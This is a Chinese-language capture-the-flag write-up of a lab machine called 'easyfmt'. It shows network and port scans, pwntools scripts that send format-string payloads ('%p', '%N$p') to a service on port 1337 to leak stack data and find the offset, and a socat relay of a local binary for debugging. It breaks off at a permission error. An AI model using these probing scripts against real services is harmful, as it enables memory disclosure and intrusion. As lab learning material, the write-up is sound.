## 网段扫描
```
root@LingMj:~/tools# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:d1:27:55, IPv4: 192.168.137.190
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.137.1	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.189	3e:21:9c:12:bd:a3	(Unknown: locally administered)
192.168.137.202	a0:78:17:62:e5:0a	Apple, Inc.

6 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.053 seconds (124.70 hosts/sec). 3 responded
```

## 端口扫描

```
root@LingMj:~/tools# nmap -p- -sC -sV 192.168.137.189            
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-21 07:03 EDT
Stats: 0:00:51 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 07:04 (0:00:19 remaining)
Stats: 0:00:56 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 07:04 (0:00:21 remaining)
Nmap scan report for easyfmt.mshome.net (192.168.137.189)
Host is up (0.026s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: Site doesn't have a title (text/html).
1337/tcp open  waste?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     welcome:Where is my password?
|     root:Well,it's in the stack,just find it.
|   FourOhFourRequest: 
|     welcome:Where is my password?
|     root:Well,it's in the stack,just find it.
|     /nice 0x7002d3orts 
|     /Tri0.000000E+00ity.txt2.124076e-314bak HTTP/1.0
|   GetRequest: 
|     welcome:Where is my password?
|     root:Well,it's in the stack,just find it.
|     HTTP/1.0
|   HTTPOptions: 
|     welcome:Where is my password?
|     root:Well,it's in the stack,just find it.
|     OPTIONS / HTTP/1.0
|   Help: 
|     welcome:Where is my password?
|     root:Well,it's in the stack,just find it.
|     HELP
|   RTSPRequest: 
|     welcome:Where is my password?
|     root:Well,it's in the stack,just find it.
|_    OPTIONS / RTSP/1.0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.95%I=7%D=6/21%Time=685691A2%P=aarch64-unknown-linux-gn
SF:u%r(NULL,48,"welcome:Where\x20is\x20my\x20password\?\nroot:Well,it's\x2
SF:0in\x20the\x20stack,just\x20find\x20it\.\n")%r(GenericLines,4B,"welcome
SF::Where\x20is\x20my\x20password\?\nroot:Well,it's\x20in\x20the\x20stack,
SF:just\x20find\x20it\.\n\r\n\n")%r(GetRequest,59,"welcome:Where\x20is\x20
SF:my\x20password\?\nroot:Well,it's\x20in\x20the\x20stack,just\x20find\x20
SF:it\.\nGET\x20/\x20HTTP/1\.0\r\n\n")%r(HTTPOptions,5D,"welcome:Where\x20
SF:is\x20my\x20password\?\nroot:Well,it's\x20in\x20the\x20stack,just\x20fi
SF:nd\x20it\.\nOPTIONS\x20/\x20HTTP/1\.0\r\n\n")%r(RTSPRequest,5D,"welcome
SF::Where\x20is\x20my\x20password\?\nroot:Well,it's\x20in\x20the\x20stack,
SF:just\x20find\x20it\.\nOPTIONS\x20/\x20RTSP/1\.0\r\n\n")%r(RPCCheck,48,"
SF:welcome:Where\x20is\x20my\x20password\?\nroot:Well,it's\x20in\x20the\x2
SF:0stack,just\x20find\x20it\.\n")%r(DNSVersionBindReqTCP,48,"welcome:Wher
SF:e\x20is\x20my\x20password\?\nroot:Well,it's\x20in\x20the\x20stack,just\
SF:x20find\x20it\.\n")%r(DNSStatusRequestTCP,48,"welcome:Where\x20is\x20my
SF:\x20password\?\nroot:Well,it's\x20in\x20the\x20stack,just\x20find\x20it
SF:\.\n")%r(Help,4F,"welcome:Where\x20is\x20my\x20password\?\nroot:Well,it
SF:'s\x20in\x20the\x20stack,just\x20find\x20it\.\nHELP\r\n\n")%r(SSLSessio
SF:nReq,4B,"welcome:Where\x20is\x20my\x20password\?\nroot:Well,it's\x20in\
SF:x20the\x20stack,just\x20find\x20it\.\n\x16\x03\n")%r(TerminalServerCook
SF:ie,4A,"welcome:Where\x20is\x20my\x20password\?\nroot:Well,it's\x20in\x2
SF:0the\x20stack,just\x20find\x20it\.\n\x03\n")%r(TLSSessionReq,4B,"welcom
SF:e:Where\x20is\x20my\x20password\?\nroot:Well,it's\x20in\x20the\x20stack
SF:,just\x20find\x20it\.\n\x16\x03\n")%r(Kerberos,49,"welcome:Where\x20is\
SF:x20my\x20password\?\nroot:Well,it's\x20in\x20the\x20stack,just\x20find\
SF:x20it\.\n\n")%r(SMBProgNeg,49,"welcome:Where\x20is\x20my\x20password\?\
SF:nroot:Well,it's\x20in\x20the\x20stack,just\x20find\x20it\.\n\n")%r(X11P
SF:robe,48,"welcome:Where\x20is\x20my\x20password\?\nroot:Well,it's\x20in\
SF:x20the\x20stack,just\x20find\x20it\.\n")%r(FourOhFourRequest,9E,"welcom
SF:e:Where\x20is\x20my\x20password\?\nroot:Well,it's\x20in\x20the\x20stack
SF:,just\x20find\x20it\.\nGET\x20/nice\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x200x7002d3orts\x20\0/Tri0\.000000E\+00ity\.txt2\.124076e-314b
SF:ak\x20HTTP/1\.0\r\n\n");
MAC Address: 3E:21:9C:12:BD:A3 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.74 seconds
```

## 获取webshell

>打靶机先感谢出题Andeli大佬，因为我的pwn连命令都是照抄的，感谢大佬的简单题给我入门pwn习题
>

  
  
  

>好了没有别的需要进行调试找到密码
>

```
from pwn import *
import re

context.log_level = 'debug'

p = remote("192.168.137.189", "1337")

a = p.recvuntil(b"password?").decode()
print(a)
b = p.recvuntil(b"root:").decode()
print(b)
p.sendline(b'A'*50)

leak = p.recvline().decode()

p.interactive()
```

  

>到没看出什么玩意，当然我觉得应该利用gdb调试去看才对
>

```
from pwn import *

context.log_level = 'debug'

p = remote("192.168.137.189", 1337)

print(p.recvuntil(b"password?"))
print(p.recvuntil(b"root:"))

# 格式化字符串尝试
for i in range(1, 40):
    payload = f'%{i}$p'.encode()
    p.sendline(payload)
    try:
        leak = p.recvline(timeout=1).decode(errors='ignore')
        print(f"[{i}] => {leak}")
    except:
        print(f"[{i}] => timeout or error")
```

  

>没啥可看的
>

  
  
  

>目前就是格式化字符串的漏洞
>

  

>目前唯一不知道的是他到底是多少现在我的数据目前看是-%
>

  

>找到是找到了有点奇怪
>

```
from pwn import *

context(log_level='debug')
target = remote('192.168.137.189', 1337)

target.recvuntil(b"welcome:Where is my password?")
target.recvuntil(b"root:Well,it's in the stack,just find it.\n")

payload = b'AAAA' + b'%p'*40
target.sendline(payload)

resp = target.clean().decode()
print(f"[DEBUG] Full response:\n{resp}")  # 关键调试信息

# 自动解析偏移
offset = None
hex_data = resp.replace('0x', '').lower()
if '41414141' in hex_data:
    idx = hex_data.index('41414141')
    chunk = hex_data[max(0, idx-16):idx+32]  # 提取周边数据
    words = [chunk[i:i+8] for i in range(0, len(chunk), 8)]
    offset = words.index('41414141') + 1
    log.success(f"Found offset: %{offset}$p")
else:
    log.warning("Auto offset detection failed! Manual analysis:")
    log.info("1. Find '41414141' in hex dump above")
    log.info("2. Count position of preceding %%p outputs")
    log.info("3. Use formula: offset = position + 1")

target.close()
```

  

>这个脚本出来是有问题的很明显数字也反了
>

## 提权

  
  

>还是把它搞出去进行操作这样也方便点
>

  

>ok，可以看到也是个读取密码的操作
>

  

>果然还是找密码，输入6个字符就很迷惑
>

```
socat TCP-LISTEN:12345,reuseaddr,fork EXEC:"/opt/vuln",pty,raw,echo=0
```

  

>做了个转发出来调试
>

  

>好像环境出了问题
>

  

>啊这本地调试给我来个权限不足
>

